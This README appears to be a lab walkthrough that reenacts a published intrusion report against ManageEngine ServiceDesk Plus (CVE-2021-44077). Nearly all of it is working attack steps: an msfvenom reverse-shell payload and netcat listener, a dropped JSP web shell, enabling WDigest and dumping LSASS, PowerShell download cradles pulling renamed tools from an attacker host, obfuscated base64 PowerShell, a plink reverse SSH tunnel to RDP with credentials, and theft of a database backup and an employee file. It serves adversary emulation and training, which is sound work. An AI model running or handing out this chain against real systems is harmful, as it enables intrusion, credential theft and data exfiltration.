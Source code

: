 
# Sketching an attack based on "[Will the Real Msiexec Please Stand Up? Exploit Leads to Data Exfiltration](https://thedfirreport.com/2022/06/06/will-the-real-msiexec-please-stand-up-exploit-leads-to-data-exfiltration/)" Report

## 1. Hands On Action: Exploiting [CVE-2021-44077](https://nvd.nist.gov/vuln/detail/CVE-2021-44077) Vulnerability based on POC in [GitHub](https://github.com/horizon3ai/CVE-2021-44077)

a. Based on the [POC](https://github.com/horizon3ai/CVE-2021-44077) msiexec.exe is created through `msfvenom`

```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.20.134 LPORT=4444 -f exe > msiexec.exe
```

b. run your listener

```
nc -l 4444
```

c. run the exploit script

```
python3 exploit.py http://192.168.20.135:8080/ msiexec.exe
```

![CVE-Exploitation-Success](CVE-Exploitation-Success.png)

#### But this approach isn't the same as the [report](https://thedfirreport.com/2022/06/06/will-the-real-msiexec-please-stand-up-exploit-leads-to-data-exfiltration/), as in the report the Threat Actor dropped a web shell JSP file `jm2.jsp` and then accessed it.

![image](https://github.com/user-attachments/assets/16c25295-6f5a-465d-96b4-da499027becb)

#### So, I wrote a simple Python script that, when executed a `wbsh.jsp` is written to `\custom\login` directory

![image](https://github.com/user-attachments/assets/a0525bc4-dc65-4c9b-9856-110ae5456b23)


#### then used `pyinstaller` to convert it to an executable exe file

![image](https://github.com/user-attachments/assets/cb7515a7-7eb1-49a0-b72d-5a3e834b0348)

#### now we have `msiexec.exe`, let's use the exploit again

![image](https://github.com/user-attachments/assets/8b473af9-46a4-4f89-9278-ff2b2c1b54b7)

#### It Worked !!

![wbsh](https://github.com/user-attachments/assets/4c83acaf-d287-4330-9b7c-34514170a965)

![image](https://github.com/user-attachments/assets/55a6b0e8-78cf-46d7-ae3f-91f68353e9b8)

#### `whoami` ?
> No Need for Privilege Escalation

![image](https://github.com/user-attachments/assets/78176ea2-9843-480b-984c-b65e5ce7de80)

<hr />

### 2. Next step we are enabling `WDigest` -> then dumping `LSASS`, -> then downloading it

a. Is WDigest Enabled?

```
reg query HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential
```

![image](https://github.com/user-attachments/assets/b6029281-dae5-4253-a7c5-8d4365bcc295)


b. Let's Enable it

```
Set-ItemProperty -Force -Path  'HKLM:\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest' -Name  'UseLogonCredential' -Value '1'
```

![image](https://github.com/user-attachments/assets/ac6e01e2-ab72-4ba4-928b-4a2ead73f624)

> Yes it is Enabled!

c. Now we have clear plaintext passwords stored in `LSASS`
```
tasklist | findstr "lsass" 
```

![image](https://github.com/user-attachments/assets/58db05a4-2da0-4d51-8bdf-9671eb584c94)

d. Let's dump it
```
C:\Windows\System32\rundll32.exe C:\Windows\System32\comsvcs.dll MiniDump, 668 C:\Windows\Temp\logctl.zip full
```

e. Download it

![image](https://github.com/user-attachments/assets/6994c404-8d93-42f3-ae33-89e6cc34c703)

f. after downloading the logctl.zip file, i'ts empty , which was weird and tried multiple ways and every time when i dump it, its empty so i had to use `procdump.exe`. 

![image](https://github.com/user-attachments/assets/ab124bb5-bdf1-4a87-aaa8-0b53bb3d2869)

> I will be adding this part to the lab for more fun

g. Download `procdump.exe`

```
powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://192.168.1.2:9000/file2.exe', 'C:\windows\temp\calc.exe')
```
> calc.exe == procdump.exe

h. Use `procdump.exe`
```
C:\windows\temp\calc.exe -accepteula -ma 668 C:\Windows\Temp\logct2.dmp
```

![image](https://github.com/user-attachments/assets/78153249-ea74-4777-8430-05dc64c8c04a)

j. Download it

![image](https://github.com/user-attachments/assets/e3649426-ec9b-4fd8-a3e3-0a0ce7b1acd6)

<hr />

### 3. We have the LSASS dump, we will skip the process of fetching the passwords for now, Let's Go to the next step where the attacker starts tunneling RDP connections over SSH

a. First, we will download `plink.exe` as `ekern.exe`
```
powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://192.168.1.2:9000/file.exe', 'C:\windows\temp\ekern.exe')
```

b. By default, RDP is Disabled. Let's check first
```
Get-Service -Name TermService
```

![image](https://github.com/user-attachments/assets/2c8d0804-16c5-4961-9e13-6179a61d723d)

c. Enable RDP, but let's base64 encode this and put it in one-line command

```
Set-Service -Name TermService -StartupType Automatic
Start-Service -Name TermService
Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server\' -Name 'fDenyTSConnections' -Value 0
```

d. Encoded:

```
powershel.exe -Command "& {[Text.Encoding]::UTF8.GetString([Convert]::FromBase64String('U2V0LVNlcnZpY2UgLU5hbWUgVGVybVNlcnZpY2UgLVN0YXJ0dXBUeXBlIEF1dG9tYXRpYw0KDQpTdGFydC1TZXJ2aWNlIC1OYW1lIFRlcm1TZXJ2aWNlDQoNClNldC1JdGVtUHJvcGVydHkgLVBhdGggJ0hLTE06XFN5c3RlbVxDdXJyZW50Q29udHJvbFNldFxDb250cm9sXFRlcm1pbmFsIFNlcnZlclwnIC1OYW1lICdmRGVueVRTQ29ubmVjdGlvbnMnIC1WYWx1ZSAw')) | Invoke-Expression}"
```

e. Run the encoded command and let's checkout

```
Get-Service -Name TermService
```

![image](https://github.com/user-attachments/assets/272a554b-5da5-4103-8ec0-18ee4424299e)


f. Download Bitvise SSH Server `192.168.1.2` and Configure credentials

```
username: H@ck3r
password: C@nt_D3f3nd_2021-44077
```

g. Let's write the FXS.bat file to run `ekern.exe` and establish a reverse SSH Connection to RDP

```
echo y|C:\Users\Temp\ekern.exe -ssh -P 443 -l H@ck3r -pw C@nt_D3f3nd_2021-44077 -R 127.0.0.1:49800:192.168.20.150:3389 192.168.1.2
```

h. Another base64? No need to download it

```
powershel.exe -Command "& {[Text.Encoding]::UTF8.GetString([Convert]::FromBase64String('JGJhdGNoQ29udGVudCA9ICdlY2hvIHl8QzpcV2luZG93c1xUZW1wXGVrZXJuLmV4ZSAtc3NoIC1QIDQ0MyAtbCBIQGNrM3IgLXB3IENAbnRfRDNmM25kXzIwMjEtNDQwNzcgLVIgMTI3LjAuMC4xOjQ5ODAwOjE5Mi4xNjguMjAuMTQ1OjMzODkgMTkyLjE2OC4xLjInDQokYmF0Y2hGaWxlUGF0aCA9ICdDOlxVc2Vyc1xWaWN0aW1cRG9jdW1lbnRzXEZYUy5iYXQnDQpTZXQtQ29udGVudCAtUGF0aCAkYmF0Y2hGaWxlUGF0aCAtVmFsdWUgJGJhdGNoQ29udGVudA==')) | Invoke-Expression}"
```

![image](https://github.com/user-attachments/assets/4f85fa3e-6cb0-48be-bc14-597ab146778a)

j. Let's run our batch...

![image](https://github.com/user-attachments/assets/f149d6b7-6b3e-475f-b867-376a98ef18ba)

k. Now It's RDP time

![image](https://github.com/user-attachments/assets/0f083225-b204-4e26-ab6a-89b6193da53f)

![image](https://github.com/user-attachments/assets/2f3579f5-3be2-40be-bad0-cba283211a7d)

it WORKED !!
![image](https://github.com/user-attachments/assets/fbd3d1af-1541-41de-a2a3-23cb1f28a86c)

<hr />

### 4. Stealing Some Data
a. Download postgres DB backup of the ManageEngine ServiceDesk Plus application it's located at `C:\Program Files (x86)\ManageEngine\ServiceDesk\backup\backup_postgres_11303_fullbackup_07_19_2024_20_07\`

![image](https://github.com/user-attachments/assets/07a1e62a-f55e-49b8-ac4d-1dfe56e59476)

b. there is a file named `Employees.xls` located on the Desktop let's see it 

![image](https://github.com/user-attachments/assets/4bf04d98-3165-41a8-8dea-4dbd01abac1d)

<hr />

## Conclusion

We started exploiting [CVE-2021-44077](https://nvd.nist.gov/vuln/detail/CVE-2021-44077) Vulnerability based on POC in [GitHub](https://github.com/horizon3ai/CVE-2021-44077) then a wbsh.jsp file was dropped, and by using it we gained a web shell and after little enummuration we started to dump LSASS after enabling WDigest to allow passwords to be stored in plaintext format. 

Then we have downloaded ekern.exe which was a renamed version of [Plink](https://the.earth.li/~sgtatham/putty/0.58/htmldoc/Chapter7.html), and wrote a batch script `FXS.bat` to establish a reverse SSH connection to tunnel RDP connections over it. After that we stole some confedintial data like `backup_postgres_11303_fullbackup_07_19_2024_20_07_part_1.data` and `Employees.xls`.

> THIS WAS FUN !!


